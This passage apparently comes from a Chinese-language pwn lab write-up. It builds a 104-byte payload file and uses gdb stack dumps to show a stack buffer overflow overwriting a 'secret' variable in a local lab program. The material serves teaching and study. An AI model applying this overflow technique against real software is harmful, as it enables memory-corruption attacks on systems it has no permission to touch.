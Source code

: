 为了验证上面的说法，可以先创建一个 payload 文件作为 `question32` 的输入。

```python
open('payload32.bin','wb+').write(b'\x41'*104)
```

接下来使用 gdb 观察读取输入前后的栈数据。

```plaintext
Reading symbols from question32...
(gdb) b question.c:8
Breakpoint 1 at 0x1214: file question.c, line 8.
(gdb) b question.c:9
Breakpoint 2 at 0x122a: file question.c, line 9.
(gdb) r < payload32.bin
Starting program: /home/weakptr/repos/pwn/lab-1/question32 < payload32.bin
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
buffer: 0xffffd058, secret: 0xffffd0bc

Breakpoint 1, main () at question.c:8
8         read(STDIN_FILENO, buffer, 0x100);
(gdb) x/32x $esp
0xffffd050:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd060:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd070:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd080:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd090:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd0a0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd0b0:     0x00000000      0x00000000      0x00000000      *0x12345678*
0xffffd0c0:     0xffffd100      0xf7fbe66c      0xf7fbeb20      0xffffd0f0
(gdb)
```

观察第 21 行，`0xffffd0bc` 处，`0x12345678`，就是 `question.c` 中初始化的 `secret` 了。而从 `0xffffd0508`到`0xffffd0bc`就是`buffer`的内容。

我们继续执行到 `read` 这一行后。

```plaintext
(gdb) next

Breakpoint 2, main () at question.c:9
9         if (secret == 0x1234) {
(gdb) x/32x $esp
0xffffd050:     0x00000000      0x00000000      0x41414141      0x41414141
0xffffd060:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd070:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd080:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd090:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd0a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd0b0:     0x41414141      0x41414141      0x41414141      *0x41414141*
0xffffd0c0:     0xffffd100      0xf7fbe66c      0xf7fbeb20      0xffffd0f0
(gdb) p /x secret
$2 = 0x41414141
```
